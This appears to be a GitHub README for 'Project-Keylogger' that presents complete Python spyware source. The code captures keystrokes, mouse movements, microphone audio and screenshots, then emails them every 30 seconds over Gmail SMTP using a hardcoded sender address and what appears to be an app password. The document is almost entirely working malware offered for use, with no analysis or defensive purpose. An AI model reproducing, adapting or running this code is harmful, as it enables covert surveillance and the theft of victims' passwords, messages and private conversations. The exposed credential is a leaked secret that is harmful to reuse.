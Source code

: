 # Project-Keylogger
This record audios, keylogs, mouse movements, and takes screenshots and sends it back to the mentioned email.
code:
import os
import sys
import time
import smtplib
import pyautogui
import threading
import sounddevice as sd
import soundfile as sf
from pynput import keyboard, mouse
from email.mime.multipart import MIMEMultipart
from email.mime.text import MIMEText
from email.mime.base import MIMEBase
from email import encoders

log = ""
mouse_log = ""

def on_press(key):
    global log
    try:
        log += str(key.char)
    except AttributeError:
        if key == keyboard.Key.space:
            log += " "
        else:
            log += f" [{str(key)}] "

def on_click(x, y, button, pressed):
    global mouse_log
    if pressed:
        mouse_log += f"Mouse clicked at ({x}, {y}) [{button}]\n"

def on_move(x, y):
    global mouse_log
    mouse_log += f"Mouse moved to ({x}, {y})\n"

def record_audio(filename, duration=30):
    global log
    samplerate = 44100
    sd.default.samplerate = samplerate
    sd.default.channels = 2
    data = sd.rec(int(samplerate * duration), blocking=True)
    sf.write(filename, data, samplerate)

def take_screenshot():
    screenshot = pyautogui.screenshot()
    screenshot.save("screenshot.png")
    
def update_data():
    global log, mouse_log
    # Update audio recording
    record_audio("audio.wav")
    # Update screenshot
    take_screenshot()
    
def send_email():
    global log, mouse_log
    from_email = "harsimran7724@gmail.com"
    to_email = "harsimran7724@gmail.com"
    password = "rggzdktxejzojyal"

    update_data()

    log_data = log
    mouse_log_data = mouse_log

    log = "" 
    mouse_log = ""

    msg = MIMEMultipart()
    msg['From'] = from_email
    msg['To'] = to_email
    msg['Subject'] = "Keylogger Data"

    body = "Please find attached the keylogger data."
    msg.attach(MIMEText(body, 'plain'))

    # Attach keystrokes log
    with open("log.txt", "w") as log_file:
        log_file.write(log_data)
    log_attachment = open("log.txt", "rb")
    part_log = MIMEBase('application', 'octet-stream')
    part_log.set_payload(log_attachment.read())
    encoders.encode_base64(part_log)
    part_log.add_header('Content-Disposition', "attachment; filename=log.txt")
    msg.attach(part_log)
    log_attachment.close()

    # Attach audio recording
    record_audio("audio.wav")
    audio_attachment = open("audio.wav", "rb")
    part_audio = MIMEBase('application', 'octet-stream')
    part_audio.set_payload(audio_attachment.read())
    encoders.encode_base64(part_audio)
    part_audio.add_header('Content-Disposition', "attachment; filename=audio.wav")
    msg.attach(part_audio)
    audio_attachment.close()

    # Attach screenshot
    take_screenshot()
    screenshot_attachment = open("screenshot.png", "rb")
    part_screenshot = MIMEBase('application', 'octet-stream')
    part_screenshot.set_payload(screenshot_attachment.read())
    encoders.encode_base64(part_screenshot)
    part_screenshot.add_header('Content-Disposition', "attachment; filename=screenshot.png")
    msg.attach(part_screenshot)
    screenshot_attachment.close()

    # Attach mouse activity log
    with open("mouse_log.txt", "w") as mouse_log_file:
        mouse_log_file.write(mouse_log_data)
    mouse_log_attachment = open("mouse_log.txt", "rb")
    part_mouse_log = MIMEBase('application', 'octet-stream')
    part_mouse_log.set_payload(mouse_log_attachment.read())
    encoders.encode_base64(part_mouse_log)
    part_mouse_log.add_header('Content-Disposition', "attachment; filename=mouse_log.txt")
    msg.attach(part_mouse_log)
    mouse_log_attachment.close()

    server = smtplib.SMTP('smtp.gmail.com', 587)
    server.starttls()
    server.login(from_email, password)
    text = msg.as_string()
    server.sendmail(from_email, to_email, text)
    server.quit()

def start_keylogger():
    with keyboard.Listener(on_press=on_press) as listener:
        listener.join()

def start_mouse_monitoring():
    with mouse.Listener(on_click=on_click, on_move=on_move) as listener:
        listener.join()

keylogger_thread = threading.Thread(target=start_keylogger)
mouse_monitoring_thread = threading.Thread(target=start_mouse_monitoring)

keylogger_thread.start()
mouse_monitoring_thread.start()

while True:
    send_email()
    time.sleep(30)  # Send email every 30 seconds
    
